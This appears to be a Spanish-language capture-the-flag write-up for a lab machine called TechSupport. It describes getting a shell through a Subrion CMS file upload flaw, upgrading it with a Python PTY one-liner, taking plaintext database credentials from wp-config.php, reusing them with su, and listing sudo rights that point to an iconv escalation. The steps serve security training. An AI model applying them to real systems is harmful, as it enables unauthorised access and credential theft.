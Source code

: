 ### **Obtención de Shell como www-data**

Tras explotar una vulnerabilidad de **File Upload en Subrion CMS 4.2.1**, obtuve una shell inversa como el usuario `www-data`. Sin embargo, esta shell era **no interactiva**, lo que limitaba mi capacidad de ejecutar comandos como `sudo`.

### **Mejorando la Shell con Python PTY**

Para obtener una **terminal interactiva**, ejecuté:


```bash
www-data@TechSupport:/$ python -c 'import pty; pty.spawn("/bin/bash")'
```

Esto me permitió usar funciones como **autocompletado** y **historial de comandos**, esenciales para una enumeración eficiente.

### ## **Enumeración y Movimiento Lateral**

Una vez obtenida la shell en la máquina comprometida, inicié el proceso de reconocimiento local con el objetivo de identificar archivos sensibles que pudieran contener credenciales o configuraciones útiles para una posible escalada de privilegios.

Durante esta etapa, explorando las rutas comunes de aplicaciones web, localicé el archivo de configuración de WordPress (`wp-config.php`), el cual contenía credenciales en texto plano para la base de datos:

```bash
/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
```

### **Acceso al Usuario `scamsite`**

Probé reutilizar estas credenciales para el usuario `scamsite`

```bash
su scamsite 
Password: ImAScammerLOL!123!

scamsite@TechSupport:/$ sudo -l
sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```


**¡Éxito!** Ahora tenía acceso como `scamsite`.
